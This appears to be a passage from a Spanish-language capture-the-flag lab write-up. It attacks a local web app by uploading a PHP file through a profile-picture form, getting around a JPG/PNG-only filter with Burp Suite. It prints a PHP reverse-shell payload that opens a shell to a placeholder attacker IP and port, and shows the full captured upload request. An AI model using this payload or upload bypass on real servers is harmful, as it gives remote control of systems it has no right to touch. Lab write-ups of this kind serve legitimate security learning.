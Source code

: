 Veremos que solo tendremos un puerto `80`, si entramos dentro del mismo veremos una pagina web normal en la que nos podremos registrar con un usuario, si lo hacemos e iniciamos sesion veremos que nos permite cambiar la foto de perfil del usuario con el cual nos hemos registrado.

Pero en la descripcion veremos que solamente permite archivos `JPG/PNG` por lo que vamos a subir un archivo normal de imagen, para ver donde se guardan.

Echo eso, veremos que se guarda en la carpeta `/uploads`, si probamos a subir un archivo `PHP` no nos dejara, vamos abrir `BurpSuite` para capturar la peticion de subida de archivo y veremos lo siguiente:

> test.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

> Peticion Subida de archivo

```
POST /profile.php HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------141171181371320561168503348
Content-Length: 329
Origin: http://172.17.0.2
Connection: keep-alive
Referer: http://172.17.0.2/profile.php
Cookie: session=eyJ1c2VyIjoiZGlzZW8ifQ.aKQ-mw.iCU12CmvCah90wWOzNU9FO5bNPI; PHPSESSID=6l7ttl49kbdv23ip4k4j5uuhsl
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------141171181371320561168503348

Content-Disposition: form-data; name="file"; filename="test.php"

Content-Type: application/x-php

<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>

-----------------------------141171181371320561168503348--
```

Vamos a probar a cambiar el tipo por `text/html` para que haya una mejor compatabilidad por si acaso, pero aun asi no nos deja, vamos a mandarlo al `repeater` con el `Ctrl+R`, ahora tambien mandaremos al `repeater` la otra peticion para poder leer el archivo que se deposita en `/uploads` de las imagenes teniendo algo asi:
